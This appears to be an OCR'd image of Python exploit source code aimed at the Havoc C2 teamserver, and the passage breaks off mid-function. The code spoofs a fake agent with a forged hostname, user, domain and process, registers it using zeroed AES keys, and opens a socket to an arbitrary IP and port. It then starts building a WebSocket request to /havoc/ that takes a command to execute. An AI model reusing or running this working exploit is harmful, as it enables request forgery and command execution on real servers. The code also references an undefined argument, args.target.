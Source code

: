 ```python
parser.add_argument("-i", "--ip", help="The IP to open the socket with", required=True)
parser.add_argument("-p", "--port", help="The port to open the socket with", required=True)
parser.add_argument("-c", "--command", help="The command to execute", required=True)
parser.add_argument("-A", "--user-agent", help="The User-Agent for the spoofed agent",
                    default="Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36")
parser.add_argument("-H", "--hostname", help="The hostname for the spoofed agent", default="DESKTOP-7F61JT1")
parser.add_argument("-u", "--username", help="The username for the spoofed agent", default="Administrator")
parser.add_argument("-d", "--domain-name", help="The domain name for the spoofed agent", default="ECORP")
parser.add_argument("-n", "--process-name", help="The process name for the spoofed agent", default="msedge.exe")
parser.add_argument("-ip", "--internal-ip", help="The internal ip for the spoofed agent", default="10.1.33.7")

args = parser.parse_args()

# Global magic bytes 0xDEADBEEF
magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target

# HTTP header agent spoofing
headers = {
    "User-Agent": args.user_agent
}

# Randomly generated agent ID
agent_id = int_to_bytes(random.randint(100000, 1000000))

# Global AES key and IV (currently just zeroed out)
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16

# Convert spoofed agent details to bytes as needed
hostname = bytes(args.hostname, encoding="utf-8")
username = bytes(args.username, encoding="utf-8")
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))

# Register the agent with the teamserver
register_agent(hostname, username, domain_name, internal_ip, process_name, process_id)
socket_id = b"\x11\x11\x11\x11"
open_socket(socket_id, args.ip, int(args.port))

"""
Build a standard WebSocket handshake HTTP request.
"""
def create_websocket_request(host, port):

    ws_key = "5NUvQyzkv9bpu376gKd2Lg=="
    
    request = (
        f"GET /havoc/ HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        f"Upgrade: websocket\r\n"
        f"Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: {ws_key}\r\n"
        f"Sec-WebSocket-Version: 13\r\n"
        f"\r\n"
```